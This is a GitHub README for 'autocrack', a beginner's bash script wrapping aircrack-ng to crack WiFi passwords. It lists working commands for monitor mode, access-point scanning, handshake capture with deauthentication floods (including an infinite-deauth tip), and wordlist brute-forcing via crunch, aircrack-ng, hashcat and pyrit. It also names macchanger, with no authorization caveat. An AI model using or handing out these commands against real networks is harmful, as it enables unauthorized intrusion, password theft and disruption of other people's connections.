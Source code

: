 # autocrack
Make aircrack-ng 1.6 works under bash (absolute beginner's script).

YOU ARE FREE TO DOWNLOAD AND EDIT THIS CODE!


prerequisite:
- linux os (debian was used)
- wifi adapter or a laptop with adapter that support monitor mode


make the script run:
- copy the autocrack.sh into a new directory
- open terminal and change the mode to executable (chmod +x autocrack.sh)
- run (sudo ./autocrack.sh)
- password will output in (password.txt)
- and do your thing!


some commands:
- put on monitor mode (airmon-ng start $int)
- use to capture all access point (airodump-ng -w mytable --output-format csv --write-interval 1 $mon_int)
- use to capture handshake and send deauthentication packet'replace 25 with 0 to send infinit deauthentication packet (airodump-ng --bssid "$bssid" -c "$ch" -w "$essid" "$mon_int" & aireplay-ng --deauth 25 -a "$bssid" "$mon_int") 
- make a wordlist and pass it to aircrack-ng to scan for match (crunch $min $max $char|aircrack-ng -b $bssid -w- $cap_file -l password.txt)
- if already have wordlist (aircrack-ng -b $bssid -w $wordlist $cap_file -l password.txt)


for GPU cracking:
- with hashcat (crunch $min $max $char | hashcat -m2500 -a0 -o password.txt $hccapx_file)
- with pyrit (crunch $min $max $char | pyrit -r $cap_file -b $bssid -i- -o password.txt attack_passthrough)


software merit:
- macchanger
- scrunch (https://github.com/skriachko/scrunch)


and as usual ENJOY!
